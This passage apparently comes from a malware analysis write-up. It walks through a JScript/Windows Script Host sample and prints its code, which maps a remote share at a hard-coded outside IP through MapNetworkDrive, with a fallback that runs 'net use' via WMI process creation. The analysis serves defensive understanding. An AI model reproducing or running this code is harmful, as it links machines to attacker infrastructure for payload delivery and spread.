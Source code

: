 1. **Setup Objects:**
   ```javascript
   var network = new ActiveXObject("WScript.Network");
   var wmi = GetObject("winmgmts:\\\\.\\root\\cimv2");
   var attempt = 0;
   var connected = false;
   ```
   The above code snippet is trying to interact with network resources using Windows Script Host's network capabilities through ActiveXObject. It also uses WMI to manage system information, trying to check for connectivity by setting a flag after attempting a connection.

2. **Check if Drive is Mapped:**
   ```javascript
   function isDriveMapped(letter) {
       var drives = network.EnumNetworkDrives();
       for (var i = 0; i < drives.length; i += 2) {
           if (drives.Item(i) === letter) {
               return true;
           }
       }
       return false;
   }
   ```
   The code snippet uses `EnumNetworkDrives()` to check if a specific drive letter (`letter`) is currently mapped on the system. This method is commonly utilized by malware to identify network resources accessible from an infected machine. By determining mapped drives, malware can potentially spread across network shares, access sensitive data, or execute further malicious activities within the network environment. 

#### Drive Mapping Logic

3. **Try Mapping Drives from 'Z' to 'A':**
   ```javascript
   for (var driveLetter = 90; driveLetter >= 65 && !connected; driveLetter--) {
       var letter = String.fromCharCode(driveLetter) + ":";
       if (!isDriveMapped(letter)) {
           try {
               network.MapNetworkDrive(letter, "\\\\95.164.3.171@80\\share\\");
               connected = true;
               break;
           } catch (e) {
               attempt++;
           }
       }
   }
   ```
   This snippet attempts to map network drives from Z: to A: (corresponding to drive letters 90 to 65) until it successfully maps to "\\95.164.3.171@80\share\" or exhausts all attempts. It uses `MapNetworkDrive()` to connect to a remote share, potentially allowing malware to access or spread across network resources, a common tactic for ```lateral movement``` in cyberattacks.

4. **Fallback Mapping with `net use`:**
   ```javascript
   if (!connected && attempt > 5) {
       var command = 'net use ' + letter + ' \\\\95.164.3.171@80\\share\\ /persistent:no';
       wmi.Get("Win32_Process").Create(command, null, null, null);

       var startTime = new Date();
       while (new Date() - startTime < 3000) {} // Wait 3 seconds

       connected = isDriveMapped(letter);
   }
   ```